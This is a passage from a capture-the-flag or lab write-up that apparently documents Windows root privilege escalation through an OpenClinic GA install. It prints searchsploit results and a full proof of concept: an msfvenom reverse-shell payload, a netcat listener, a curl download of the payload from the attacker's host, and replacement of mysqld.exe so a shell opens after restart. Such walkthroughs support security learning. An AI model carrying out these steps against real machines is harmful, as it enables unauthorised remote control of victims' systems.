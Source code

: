- Moving to root escalation now.

---

## 👑 Root Privilege Escalation

- After enumerating for a bit I found my way to root.

  ```
  PS C:\> cd projects
  PS C:\projects> dir
  
  
      Directory: C:\projects
  
  
  Mode                LastWriteTime         Length Name                                                                  
  ----                -------------         ------ ----                                                                  
  d-----       09/11/2021     07:29                openclinic 
  ```

- Now I looked for `openclinic` exploits and found this bad boi:

  ```
  $ searchsploit openclinic   
  --------------------------------------------------------------------------------- ---------------------------------
   Exploit Title                                                                   |  Path
  --------------------------------------------------------------------------------- ---------------------------------
  OpenClinic GA 5.194.18 - Local Privilege Escalation                              | windows/local/50448.txt
  OpenClinic GA 5.247.01 - Information Disclosure                                  | php/webapps/51994.md
  OpenClinic GA 5.247.01 - Path Traversal (Authenticated)                          | php/webapps/51995.md
  --------------------------------------------------------------------------------- ---------------------------------
  Shellcodes: No Results
  
  $cat 50448.txt
  
                                  # Proof of Concept
  
  1. Generate malicious .exe on attacking machine
      msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.102 LPORT=4242 -f exe > /var/www/html/mysqld_evil.exe
  
  2. Setup listener and ensure apache is running on attacking machine
      nc -lvp 4242
      service apache2 start
  
  3. Download malicious .exe on victim machine
      type on cmd: curl http://192.168.1.102/mysqld_evil.exe -o "C:\projects\openclinic\mariadb\bin\mysqld_evil.exe"
  
  4. Overwrite file and copy malicious .exe.
      Renename C:\projects\openclinic\mariadb\bin\mysqld.exe > mysqld.bak
      Rename downloaded 'mysqld_evil.exe' file in mysqld.exe
  
  5. Restart victim machine
  
  6. Reverse Shell on attacking machine opens
      C:\Windows\system32>whoami
  ```